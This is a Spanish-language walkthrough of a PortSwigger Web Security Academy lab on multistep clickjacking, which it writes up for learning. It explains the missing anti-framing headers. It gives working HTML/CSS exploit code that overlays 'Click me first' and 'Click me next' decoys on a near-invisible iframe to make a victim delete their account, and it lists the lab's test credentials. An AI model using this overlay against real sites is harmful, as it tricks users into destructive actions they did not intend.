




# 💻 Clickjacking en múltiples pasos

## 📄 Descripción del laboratorio

La acción **Delete account** está protegida por:

* **Token CSRF**
* **Confirmación adicional mediante un diálogo modal**

El flujo requiere **dos clics consecutivos**:

1. Pulsar **Delete account**.
2. Confirmar la acción en el cuadro emergente.

El objetivo es:

* Engañar al usuario para que realice ambos clics.
* Utilizar dos elementos señuelo: **“Click me first”** y **“Click me next”**.
* Eliminar la cuenta sin que el usuario lo perciba.

Credenciales de prueba:

```
wiener:peter
```

 

## 📚 Teoría

Este laboratorio demuestra que los **flujos de múltiples pasos no mitigan el Clickjacking** si la página puede cargarse dentro de un iframe.

En este caso:

* No existe la cabecera **X-Frame-Options**.
* No se utiliza **Content-Security-Policy: frame-ancestors**.

El diálogo de confirmación se renderiza dentro de la **misma página**, por lo que todo el flujo queda contenido dentro del iframe.

### 📌 Estrategia del ataque

El atacante realiza los siguientes pasos:

1. Incrusta `/my-account` dentro de un **iframe casi transparente**.
2. Superpone **dos señuelos visuales**, cada uno alineado con un botón distinto.
3. Induce al usuario a hacer clic en orden.
4. El **token CSRF se envía automáticamente** en cada acción.

Como resultado, ambos pasos se ejecutan como si el usuario los hubiera realizado conscientemente.

 

## 📝 Práctica

### 🎯 Objetivo

Eliminar la cuenta de la víctima mediante **dos clics engañados**.

 

### 1️⃣ Análisis del flujo

Se inicia sesión con:

```
wiener:peter
```

Se accede a **My account**.

<br>

Observaciones:

* Existe un botón **Delete account**.
* Tras pulsarlo aparece un **diálogo de confirmación**.

<br>

Se prueba cargar la página dentro de un iframe desde el **Exploit Server**.

Resultado:

La página se carga correctamente, lo que confirma que **no existe protección anti-iframe**.

 

### 2️⃣ Construcción del exploit

Se crea una página maliciosa que:

1. Incrusta `/my-account` dentro de un iframe casi invisible.
2. Coloca **dos elementos visibles** alineados con los botones reales:
   * Uno sobre **Delete account**.
   * Otro sobre el botón **Confirm** del diálogo modal.

Código del exploit:

```html
<style>
    iframe {
        width: 500px;
        height: 600px;
        opacity: 0.001;
        position: absolute;
        top: 0;
        left: 0;
    }
    .first {
        position: absolute;
        top: 505px;
        left: 100px;
        font-size: 30px;
        color: red;
        pointer-events: none;
    }
    .second {
        position: absolute;
        top: 290px;
        left: 200px;
        font-size: 30px;
        color: red;
        pointer-events: none;
    }
</style>

<div class="first">Click me first</div>
<div class="second">Click me next</div>
<iframe src="https://ID-DEL-LAB.web-security-academy.net/my-account"></iframe>
```

Se ajustan las propiedades `top` y `left` para:

* Alinear **Click me first** con **Delete account**.
* Alinear **Click me next** con el botón **Confirm**, que aparece después del primer clic.

 

### 3️⃣ Ejecución del ataque

Se guarda el exploit en el **Exploit Server** mediante **Store** y posteriormente se selecciona **Deliver exploit to victim**.


 

### 4️⃣ Resultado final

Cuando la víctima carga la página maliciosa:

1. Ve el texto **“Click me first”** y hace clic.
2. Luego ve **“Click me next”** y vuelve a hacer clic.

En realidad, el usuario ha:

* Pulsado **Delete account**.
* Confirmado la acción en el diálogo modal.

El **token CSRF válido** se envía en ambos pasos y la cuenta se elimina.

El laboratorio se resuelve correctamente.


